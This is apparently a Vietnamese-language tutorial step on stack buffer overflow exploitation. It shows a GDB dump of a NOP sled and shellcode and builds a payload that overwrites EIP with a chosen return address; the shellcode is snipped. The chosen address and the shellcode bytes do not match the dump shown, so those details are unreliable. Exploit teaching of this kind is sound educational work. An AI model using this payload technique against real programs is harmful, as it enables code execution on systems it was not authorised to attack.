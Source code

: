 # Identification of the Return Address
---
Sau khi kiểm tra chúng ta vẫn kiểm soát EIP bằng shellcode của mình. Bây giờ chúng tôi cần một địa chỉ bộ nhớ nơi đặt NOP của chúng tôi để yêu cầu EIP chuyển đến địa chỉ đó. Địa chỉ bộ nhớ này không được chứa bất kỳ ký tự xấu nào mà chúng tôi đã tìm thấy trước đó.

```shell
0xffffd0b4:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd0bc:     0x55    0x55    0x55    0x55    0x90    0x90    0x90    0x90
                           end of "\x55"-->|    |<--- start of "\x90" NOPs
0xffffd0c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0d4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0dc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0e4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0ec:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0f4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0fc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd104:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd10c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd114:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd11c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd124:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd12c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd134:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd13c:     0xd9    0xc8    0xba    0xe2    0x7a    0x2a    0xc8    0xd9
                |<--- start ShellCode
0xffffd144:     0x74    0x24    0xf4    0x5b    0x33    0xc9    0xb1    0x12
```

Ở đây, bây giờ chúng ta phải chọn một địa chỉ mà chúng ta giới thiệu EIP đến, địa chỉ này sẽ đọc và thực thi hết byte này đến byte khác bắt đầu từ địa chỉ này. Trong ví dụ này, chúng tôi lấy địa chỉ 0xffffd64c. Minh họa thì nó trông như thế này:

![stack](image.png)

**Attck**
```shell
   Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"

---

run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```




